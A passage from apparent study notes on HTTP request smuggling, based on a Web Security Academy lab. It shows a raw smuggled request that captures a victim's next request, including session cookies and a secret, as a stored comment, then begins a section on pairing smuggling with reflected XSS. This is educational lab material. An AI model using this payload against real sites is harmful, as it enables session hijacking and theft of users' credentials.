 The `Content-Length` header of the smuggled request indicates that the body will be 300 bytes long, but we've only sent 99 bytes. In this case, the back-end server will wait for the remaining bytes before issuing the response:

```http
POST /post/comment HTTP/1.1
Host: 0afb000104041fab80fcb7e700f700a2.web-security-academy.net
Cookie: session=NgBOL0Gf1fID2y1JEwm8DnFs7grBqOXg
Content-Length: 300
Content-Type: application/x-www-form-urlencoded
Connection: close

csrf=5LyZ1D9NmpeqyWEB6V34fEyUfNKpiJqC&postId=10&name=name&email=email%40email.com&website=&comment=GET / HTTP/1.1
Host: 0afb000104041fab80fcb7e700f700a2.web-security-academy.net
...
user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
...
cookie: victim-fingerprint=YA26Kq6Y8BOjhhD1kjJZTZl59VEbH92H; secret=7i6KmAUvmLS0DoFAGcelXmF52ybujwOP; session=3S5bRRhvlI0y4qF3WyxXrAa80QzZsulz
```

![](../../zzz_res/attachments/HTTP_req-smuggling-capturing_user_request.png)

>[!warning]
>One limitation with this technique is that it will generally **only capture data up until the parameter delimiter** that is applicable for the smuggled request. For URL-encoded form submissions, this will be the & character, meaning that the content that is stored from the victim user's request will end at the first &, which might even appear in the query string

# Using request smuggling to exploit reflected XSS

If an application is vulnerable to [HTTP Request Smuggling](HTTP%20Request%20Smuggling.md) and also contains [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md), you can use a request smuggling attack to hit other users of the application. 

This approach is superior to normal exploitation of reflected XSS in two ways:
